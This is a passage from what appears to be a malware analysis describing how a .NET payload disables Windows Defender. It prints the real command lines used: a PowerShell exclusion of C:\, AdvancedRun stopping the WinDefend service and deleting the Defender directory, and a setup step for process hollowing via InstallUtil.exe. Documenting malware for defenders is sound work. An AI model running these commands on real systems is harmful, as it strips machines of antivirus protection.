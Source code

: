 ![](media/image1.png)

The obfuscated .NET payload (described as Stage 3 below) is then executed in memory, setting off a number of events including:

* Writing and executing a VBS script that uses PowerShell to add a Windows Defender exclusion on the root directory (C:\)

```text title="Writing and executing a VBS script"
"C:\Windows\System32\WScript.exe""C:\Users\jim\AppData\Local\Temp\Nmddfrqqrbyjeygggda.vbs" 
```

```text title="Uses PowerShell to add a Windows Defender exclusion"
powershell.exe Set-MpPreference -ExclusionPath 'C:\'
```

* [AdvancedRun](https://www.nirsoft.net/utils/advanced_run.html), a program used to run Windows applications with
  different settings, is then dropped to disk and executed in order to launch the Service Control Manager and stop
  the Windows Defender service (WinDefend).

```text title="AdvancedRun is used to stop Windows Defender"
"C:\Users\jim\AppData\Local\Temp\AdvancedRun.exe" /EXEFilename "C:\Windows\System32\sc.exe" /WindowState 0 /CommandLine "stop WinDefend"  /StartDirectory "" /RunAs 8 /Run
```

* AdvancedRun is used again when launching PowerShell to recursively delete the Windows Defender directory and its files.

```text title="AdvancedRun deleting the Windows Defender directory"
"C:\Users\jim\AppData\Local\Temp\AdvancedRun.exe" /EXEFilename "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" /WindowState 0 /CommandLine "rmdir 'C:\ProgramData\Microsoft\Windows Defender' -Recurse" /StartDirectory "" /RunAs 8 /Run
```

* Copies `InstallUtil.exe` is a command-line utility that allows users to install and uninstall server resources from
  the local machine into the user’s `%TEMP%` directory. This action leverages the file for
  [process hollowing](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
  by launching it in a suspended state.
